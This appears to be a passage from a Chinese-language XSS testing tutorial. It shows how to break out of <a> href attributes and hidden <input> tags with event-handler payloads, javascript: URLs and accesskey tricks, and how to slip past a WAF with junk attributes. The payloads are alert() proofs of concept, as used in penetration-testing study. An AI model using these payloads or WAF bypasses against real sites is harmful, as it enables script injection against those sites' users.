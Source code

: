 常见位置: 搜索框

#### `<a>`标签内
正常能控制的是href属性

##### 情况一: 只能控制href部分的输入

```
" onmouseover=alert(7) x="
" onmousemove=alert(7) x="
```

这里举个栗子:
- 原url: http://www.xxx.com/search.aspx
- 输入2333: http://www.xxx.com/search.aspx/2333
- 审查元素看到2333在`<a>`标签中被输出 `<a href="/search.aspx/2333?page=1" class="cur">1</a>`
- 输入payload: `http://www.xxx.com/search.aspx/2333" onmouseover=alert(7) x="`
- 再次审查元素查看 `<a href="/search.aspx/2333" onmouseover="alert(7)" x="?page=1" class="cur">1</a>`

实际中很少有这么顺利的, 往往闭合后还需要绕一些关键字.

##### 情况二: 能够控制整个href属性
这种情况就好多了, 首先不需要考虑闭合了, 直接使用JS伪协议.`javascript:alert(7)`

常见位置: 分页按钮

这种可以尝试在当前页面url后面进行闭合, 审查元素看看有没有变化


hidden属性的标签内：
`" accesskey=X onclick=alert(7) x="`

`" onmousemove=alert(7) type="`


这里举个栗子:
```
<!-- 原标签一 -->
<input type="hidden" value="">
<!-- type属性在输入位置前面, ALT+SHIFT+X快捷键触发(火狐) -->
<input type="hidden" value="aaa" accesskey="X" onclick="alert(7)" x="">
<!-- 原标签二 -->
<input value="" type="hidden">
<!-- type属性在输入位置后面,则可以重写一个type属性覆盖掉原有的type属性值,让标签显示出来 -->
<input value="aaa" onmousemove=alert(7) type="" type="hidden">
```

##### 补充一种很少见但实际遇到过的绕过WAF的情况
`<inputtype="hidden"value="aaa" abc accesskey="X"onclick="alert(7)"x="">`

这里穿插了一个abc无效属性绕过了WAF,不添加的话会直接被拦截, 网站无响应。在payload中穿插无效的属性, 可能会绕过WAF的正则匹配, 遇到被WAF拦截的情况时可以尝试下。



### XML_XSS
如果允许上传xml格式, 可将下面Payload保存为xml文件并上传, 访问即可触发弹窗. 

PS: ueditor编辑器默认是可以上传xml文件的, 大家遇到可以试下.
